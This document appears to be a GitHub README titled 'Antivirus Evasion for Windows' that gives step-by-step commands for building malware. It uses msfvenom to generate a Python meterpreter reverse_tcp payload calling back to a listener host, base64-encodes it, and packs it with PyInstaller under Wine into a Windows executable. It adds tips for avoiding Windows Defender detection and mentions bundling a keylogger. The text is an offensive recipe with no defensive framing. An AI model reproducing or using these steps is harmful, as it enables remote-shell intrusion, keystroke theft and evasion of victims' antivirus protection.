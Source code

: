 # Antivirus Evasion for Windows

# Install Metasploit

Metasploit: https://github.com/rapid7/metasploit-framework run the nightly script from github for installation

# Then install rest with

install.sh

This script might need modification on different linux versions.

# Create payload with python2 interpreter
<code>
which python2
</code>

Take care when installing packages with locally before crosscompiling to add the --user flag and look for the right pip version
<code>
python2.7 -m pip install pynput==1.0 --user
</code>


# Usage

msfvenom -p python/meterpreter/reverse_tcp LHOST=10.0.2.10 LPORT=443 -f raw -o mrtp.py
pythonpayload.py | base64 
Replace this string with the base64 string in mrtp.py

Super helpful thread:
https://www.reddit.com/r/HowToHack/comments/ghfkrh/pyinstaller_getting_picked_up_by_windows_defender/

## Bundeling
Read this before starting: https://arcade.academy/tutorials/bundling_with_pyinstaller/index.html
Install the necessary imports with
<code>
#This is example for the keylogger
wine ~/.wine/drive_c/Python27/python.exe -m pip install pynput==1.0 
wine ~/.wine/drive_c/Python27/python.exe -m pip install cryptography==3.3
</code>

### Create the exe file
<code>
wine ~/.wine/drive_c/Python27/python.exe -m PyInstaller --onefile  -w --hidden-import=pynput --hidden-import=cryptography onefile.py
</code>

Do not use the --noconsole flag for pyinstaller cause Windows Defender will pick it up
The exe-file is in the dist folder
Test it on wine with wine dist/mrtp.py



# Sources: 
- https://pentestmag.com/antivirus-evasion-with-python/
- https://www.andreafortuna.org/2017/12/27/how-to-cross-compile-a-python-script-into-a-windows-executable-on-linux/
- https://www.youtube.com/watch?v=ozPaEWN4GnM
- https://stackoverflow.com/questions/63342345/cant-install-pyinstaller-at-ubuntu
- https://www.quora.com/How-do-I-make-an-executable-file-exe-which-runs-in-the-Windows-Environment-from-Python-py-file?share=1